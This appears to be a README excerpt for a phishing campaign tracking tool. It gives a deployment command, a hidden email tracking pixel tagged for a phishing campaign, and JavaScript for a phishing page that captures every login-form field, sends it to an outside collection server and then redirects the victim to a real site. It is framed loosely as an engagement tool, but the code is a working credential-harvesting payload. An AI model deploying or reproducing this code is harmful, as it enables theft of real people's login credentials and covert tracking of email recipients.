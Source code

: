 ### Standalone Deployment

```bash
python3 deployment-script.py \
  --domain tracking.example.com \
  --email admin@example.com \
  --engagement-name campaign-2025 \
  --ipinfo-token YOUR_IPINFO_TOKEN \
  --setup-ssl \
  --create-pixel
```

## Usage Examples

### Email Tracking

To track email opens, embed the following HTML in your emails:

```html
<img src="https://tracking.example.com/track-open?email=target@company.com&campaign=phishing-2025&template=invoice" width="1" height="1" alt="" style="display:none;">
```

### Form Capture

To capture form submissions, add this JavaScript to your phishing page:

```html
<script>
  document.getElementById('login-form').addEventListener('submit', function(e) {
    e.preventDefault();
    
    var formData = new FormData(this);
    var data = {};
    
    formData.forEach(function(value, key) {
      data[key] = value;
    });
    
    // Send to tracking server
    fetch('https://tracking.example.com/log', {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json'
      },
      body: JSON.stringify(data)
    })
    .then(function() {
      // Redirect to legitimate site
      window.location.href = 'https://legitimate-site.com';
    });
  });
</script>
```
